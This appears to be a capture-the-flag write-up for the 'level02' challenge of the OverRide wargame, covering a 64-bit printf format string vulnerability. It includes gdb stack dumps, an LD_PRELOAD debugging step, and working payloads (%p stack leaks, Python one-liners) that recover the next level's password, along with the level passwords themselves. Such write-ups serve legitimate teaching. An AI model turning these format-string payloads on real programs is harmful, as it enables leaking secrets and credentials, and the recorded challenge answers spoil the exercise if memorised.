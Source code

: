 # Level02 - 64 bits - Format string attack

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level02/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |
| level03 | `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We notice the vulnerable printf that does not use format string and print directly the variable `username`

For example:

```shell
~/level02
--[ Username: AAAA
--[ Password: BBBB
  AAAA does not have access!

~/level02
--[ Username: %s # <= Format string vulnerability
--[ Password: BBBB
*****************************************
BBBB does not have access!
```

Unfortunately it difficult to debug the stack because of `fopen`, `fread` and `fclose` that try to open, read and close the level03's flag.

We can use [LD_PRELOAD trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) to mock those functions.

(This step is not really necessary, but it is better to illustrate)

We wrote a file for this job: [debugHelper.c](./debugHelper.c)

We have to send the file with `scp` and then compile it.

```shell
# on local machine
scp -P $OR_PORT -r debugHelper.c level02@$OR_HOST:/tmp/debugHelper.c

# on remote machine
gcc -shared -fPIC -ldl debugHelper.c -o debugHelper.so
export LD_PRELOAD=/tmp/debugHelper.so
```

```shell
gdb-peda$ b*main+654 # before vulnerable printf
gdb-peda$ run < <(echo "BBBBBB\nCCCCCC")
telescope 25

[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 --> 0x7fffffffe598 --> 0x7fffffffe7f2 ("/home/users/level02/level02")
0008| 0x7fffffffe398 --> 0x1f7ff9f10
0016| 0x7fffffffe3a0 --> 0x434343434343 ('CCCCCC')
0024| 0x7fffffffe3a8 --> 0x0
0032| 0x7fffffffe3b0 --> 0x0
0040| 0x7fffffffe3b8 --> 0x0
0048| 0x7fffffffe3c0 --> 0x0
0056| 0x7fffffffe3c8 --> 0x0
0064| 0x7fffffffe3d0 --> 0x0
0072| 0x7fffffffe3d8 --> 0x0
0080| 0x7fffffffe3e0 --> 0x0
0088| 0x7fffffffe3e8 --> 0x0
0096| 0x7fffffffe3f0 --> 0x0
0104| 0x7fffffffe3f8 --> 0x0
0112| 0x7fffffffe400 --> 0x100000000
0120| 0x7fffffffe408 --> 0x0
0128| 0x7fffffffe410 ('A' <repeats 40 times>) # <=== fake Flag
0136| 0x7fffffffe418 ('A' <repeats 32 times>)
0144| 0x7fffffffe420 ('A' <repeats 24 times>)
0152| 0x7fffffffe428 ('A' <repeats 16 times>)
0160| 0x7fffffffe430 ("AAAAAAAA")
0168| 0x7fffffffe438 --> 0x0
0176| 0x7fffffffe440 --> 0x424242424242 ('BBBBBB')
0184| 0x7fffffffe448 --> 0x0
0192| 0x7fffffffe450 --> 0x0
[------------------------------------------------------------------------------]
```

We can see the fake flag at the address `0x7fffffffe410`.

As we don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop.

Lets run [our script](./script.sh)

```shell
./script.sh
  %00$p: %0$p                 | xxd -r | rev  =>
  %01$p: 0x7fffffffe970       | xxd -r | rev  =>
  %02$p: (nil)                | xxd -r | rev  =>
  %03$p: 0x70                 | xxd -r | rev  =>  p
  %04$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %05$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %06$p: 0x7fffffffeb68       | xxd -r | rev  =>
  %07$p: 0x1f7ff9a08          | xxd -r | rev  =>
  %08$p: 0x64726f7773736170   | xxd -r | rev  =>  password
  %19$p: (nil)                | xxd -r | rev  =>
  (...)
  %20$p: 0x100000000          | xxd -r | rev  =>
  %21$p: (nil)                | xxd -r | rev  =>
  %22$p: 0x756e505234376848   | xxd -r | rev  =>  Hh74RPnu
  %23$p: 0x45414a3561733951   | xxd -r | rev  =>  Q9sa5JAE
  %24$p: 0x377a7143574e6758   | xxd -r | rev  =>  XgNWCqz7
  %25$p: 0x354a35686e475873   | xxd -r | rev  =>  sXGnh5J5
  %26$p: 0x48336750664b394d   | xxd -r | rev  =>  M9KfPg3H

  It should be:  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  (...)
```

We have something like 40 chars in a row. It should be the flag.

Lets try

```shell
~/level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username:
  --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  *****************************************
  Greetings, !
$ whoami
  level03
$ cat /home/users/level03/.pass
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Another solution :

We have printf exploit possibility as our buffer is used as the first argument of printf, we can bring our own modifiers. We can use that to print the stack starting from the printf function since we can't debug with gdb because of fopen issues etc...

Let's check that :

```shell
./level02 
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: %p %p %p %p %p %p %p %p %p %p
  --[ Password: AAAA
  *****************************************
  0x7fffffffe500 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x41414141 (nil) (nil) does not have access!
```

Ok, with the %p modifier we can see that our buffer "AAAA" starts at the 8th argument.
We also know that our password buffer starts at `[rbp-0x110]` in the stack and the flag starts at `[rbp-0xa0]` => difference of 0x70 = 112 bytes.
Since `%p` is printing a maximum of 8 bytes long arguments, the flag argument position will be after 14 arguments (112 / 8 = 14), which means the 22th (our password is 8th, so 14 + 8 = 22)

```shell
(python -c 'print("%22$p "+"%23$p "+"%24$p "+"%25$p "+"%26$p "+"%27$p "+"%28$p")' ; python -c 'print("AAAA")')  | ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: --[ Password: *****************************************
  0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x3225207024323225 does not have access!
```

Now that we have the flag values (terminated by a `(nil)` value), we can put it in the `username` buffer and let the error part print it for us ("`username` does not have access!")

```shell
level02@OverRide:~$ (python -c 'print("\x48\x68\x37\x34\x52\x50\x6e\x75"+"\x51\x39\x73\x61\x35\x4a\x41\x45"+"\x58\x67\x4e\x57\x43\x71\x7a\x37"+"\x73\x58\x47\x6e\x68\x35\x4a\x35"+"\x4d\x39\x4b\x66\x50\x67\x33\x48")' ; python -c 'print("AAAA")')  | ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: --[ Password: *****************************************
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H does not have access!
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [LD_PRELOAD Trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/)
- [LD_PRELOAD Trick (with call to real function)](https://catonmat.net/simple-ld-preload-tutorial-part-two)

- [Man exit](https://linux.die.net/man/3/exit)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man fclose](https://linux.die.net/man/3/fclose)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fread](https://linux.die.net/man/3/fread)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
- [Man strcspn](https://linux.die.net/man/3/strcspn)
- [Man system](https://linux.die.net/man/3/system)
